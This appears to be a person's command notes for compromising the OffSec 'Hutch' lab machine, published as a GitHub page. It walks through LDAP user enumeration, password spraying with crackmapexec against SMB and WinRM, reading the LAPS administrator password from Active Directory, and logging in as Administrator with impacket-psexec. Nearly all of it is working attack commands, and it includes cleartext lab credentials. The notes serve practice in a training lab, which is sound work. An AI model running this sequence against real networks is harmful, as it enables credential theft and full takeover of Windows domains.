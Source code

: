 Use ldap search for user enumeration and store results in a file.
```
ldapsearch -x -h 192.168.162.122 -b "dc=hutch,dc=offsec" > ldap_search.txt
```
clean the file by first getting the usernames only
```
cat ldap_search.txt | grep -i "samaccountname"
```
then copying and pasting them into a file.
```
vi raw_users.txt
```
afterwards we edit and clean the file with this command.
```
cat raw_users.txt | cut -d: -f2 | tr -d " " > users.txt
```
used to crack found passwords or users.
```
crackmapexec smb 192.168.105.122 -u users.txt -p CrabSharkJellyfish192 --continue-on-success
```
used to find winrm access.
```
crackmapexec winrm 192.168.219.122 -u fmcsorely -p CrabSharkJellyfish192
```
used to find the shares on a file system.
```
crackmapexec smb 192.168.105.122 -u fmcsorley -p CrabSharkJellyfish192 --shares
```
```
crackmapexec smb 192.168.194.165 -u users.txt -p passwords.txt --continue-on-success
```
```
crackmapexec winrm 192.168.194.165 -u users.txt -p passwords.txt --continue-on-success
```
used to find the admin password
```
ldapsearch -x -H ldap://192.168.105.122 -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd 
```
used to log in to the machine.
```
impacket-psexec hutch.offsec/Administrator:'$az+c]64++F{$A'@192.168.105.122
```
used to find hash number in hashcat:
```
hashcat -h | grep -i "ntlmv2"
```
